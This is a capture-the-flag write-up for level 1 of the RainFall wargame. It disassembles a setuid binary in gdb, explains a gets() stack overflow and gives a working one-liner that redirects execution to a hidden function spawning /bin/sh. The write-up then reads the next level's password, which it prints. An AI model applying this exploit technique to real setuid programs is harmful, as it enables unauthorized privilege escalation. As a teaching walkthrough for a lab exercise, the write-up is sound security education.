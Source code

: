 # Level1

## Walkthrough

We list the files in the current home directory.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
level1@RainFall:~$ file level1 
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```

The file is owned by **level2** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

There are 2 user-defined functions: `main()` and `run()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```

The `main()` function calls `gets()` and stores the user input to `[esp + 0x10]`.

The `run()` function is never called.

```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

The `run()` function:
- calls `fwrite()` to write `"Good... Wait what?\n"` on stdout
- calls `system()` to execute `/bin/sh`

As `main()` is calling `gets()`, we can exploit it with a **buffer overflow** in order to overwrite the `old eip` register, sitting at the start of the stack frame of `main()`, with the address of `run()`.

We draw a diagram of the `main()` stack frame.

![Stack diagram](./resources/level1_diagram1.png)

`gets()` doesn't perform any length validation. We must calculate the difference between the start of the `gets()` buffer and the `old eip` on the stack: 96 - 16 - 4 = 76.

We run a **Python** script onto the command line to print 76 characters and append them with 4 bytes representing the address of `run()`.  
Because our system is **little-endian**, we have to pass the address from the least-significant byte to the most-significant one: `0x08048444` becomes `0x44840408`.

```bash
level1@RainFall:~$ python -c "print('A' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Our script is working because the message of `run()` is printed on stdout, but the shell process is instantly closed.  
After some researches, we find a solution using the `cat` command.

```bash
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Resources

- [An Introduction to Buffer Overflow Vulnerability](https://freedium.cfd/https://medium.com/techloop/understanding-buffer-overflow-vulnerability-85ac22ec8cd3#:%7E:text=A%20Beginner%E2%80%99s%20Guide%20to%20Buffer%20Overflow%20Vulnerability%201,Overflow%20...%207%20Security%20Measures%20...%208%20References)
- [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- [Buffer Overflows Part 1 - Jumping to Local Functions](https://www.youtube.com/watch?v=svgK9fNGTfg)
- [Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
